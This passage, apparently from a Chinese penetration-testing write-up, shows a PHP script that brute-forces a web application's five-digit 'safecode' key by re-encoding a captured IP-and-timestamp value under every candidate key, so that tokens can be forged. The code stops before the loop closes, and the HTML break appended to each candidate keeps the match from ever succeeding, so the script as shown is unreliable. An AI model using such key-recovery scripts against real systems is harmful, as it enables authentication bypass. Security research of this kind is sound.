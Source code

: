 ![](https://mmbiz.qpic.cn/mmbiz_png/b4zGuE1C5nZOA4RNx5uMP82mXCpVChgRjjLHIP3icnTlxeCoLSIgufRNzsibNnFxLQNDOQFhibreKNEafIfjqa22w/640?wx_fmt=png)

成功读取到了，这里就需要爆破 MD5_KEY，他是五位数的，用他的代码修了下 php 的爆破脚本

```
<?php
function safecode($msg_val,$msg_type="encode",$str_key_val = '36118'){ // 192.168.50.1351600069125552
        $str_key       = $str_key_val;
        $str_en_key    = base64_encode($str_key);
        $str_md5_key   = md5($str_key);
        $str_md5_key_1 = substr($str_md5_key , 0 , 1);
        $str_md5_key_2 = substr($str_md5_key , -1 , 1);
        $lng_key_1     = ord($str_md5_key_1);
        $lng_key_2     = ord($str_md5_key_2);
        $lng_x_key1    = substr($lng_key_1,-1,1);
        if($lng_key_1 > 9) {
            $lng_x_key2 = intval(substr($lng_key_1 , -2 , 1)) + $lng_x_key1;
        }else{
            $lng_x_key2 = $lng_x_key1 * 2;
        }
        $str_left      = base64_encode(substr($str_md5_key , $lng_x_key1 , $lng_x_key2));
        $lng_2_key1    = substr($lng_key_2 , -1 , 1);
        if($lng_2_key1 > 9){
            $lng_2_key2 = intval(substr($lng_key_2 , -2 , 1)) + $lng_2_key1;
        }else{
            $lng_2_key2 = $lng_2_key1 * 2;
        }
        $str_right = base64_encode(substr($str_md5_key , -$lng_2_key2));
        if($msg_type == "encode"){
            $str_en_id   = base64_encode($msg_val);
            $str_en_code = $str_left . $str_en_id . $str_right;
            $str_return  = str_replace("=" , "" , $str_en_code);
        }else{
            $str_left    = str_replace("=" , "" , $str_left);
            $str_right   = str_replace("=" , "" , $str_right);
            $str_llen    = strlen($str_left);
            $str_rlen    = strlen($str_right);
            $str_len     = strlen($msg_val);
            if($str_len < ($str_llen + $str_rlen)){
                $str_return = "";
            }else{
                $str_return = base64_decode(substr($msg_val , $str_llen , -$str_rlen));
            }
        }
        return $str_return;
    }


function getNumber($start=1,$end=99999){
    for ($i=$start; $i <= $end; $i++) { 
        $arr[] = substr(str_repeat("0",6).$i,-5,5);
    }
    return $arr;
}

$numbers= getNumber(1,99999);
foreach ($numbers as $val){
    $keyss = safecode('105.112.215.421600227695831','encode',$val)."<br />";
    echo $keyss.':'.strval($val)."<br />";
    if ($keyss == 'NgMTAzLjE5Mi4yMjUuNDIxNjAwMjI3Njk1ODMxYTBjZmVkN2ZmMzY2OTYzYg'){
        echo $val;
        exit;
    }
```